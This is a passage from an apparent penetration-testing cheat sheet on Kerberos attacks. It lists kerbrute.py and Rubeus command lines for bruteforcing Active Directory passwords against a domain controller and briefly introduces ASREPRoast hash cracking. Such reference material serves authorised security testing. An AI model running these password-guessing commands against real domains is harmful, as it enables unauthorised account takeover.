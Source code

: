 ### Step 5

![](../../../.gitbook/assets/imagen%20%288%29.png)

## Bruteforcing

> Requirements: connection with DC/KDC.

### Linux \(external\)

With [kerbrute.py](https://github.com/TarlogicSecurity/kerbrute):

```text
python kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
```

### Windows \(internal\)

With [Rubeus](https://github.com/Zer1t0/Rubeus) version with brute module:

```text
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```

## ASREPRoast

> Cracking users password, with KRB\_AS\_REQ when user has DONT\_REQ\_PREAUTH attribute, KDC respond with KRB\_AS\_REP user hash and then go for cracking.
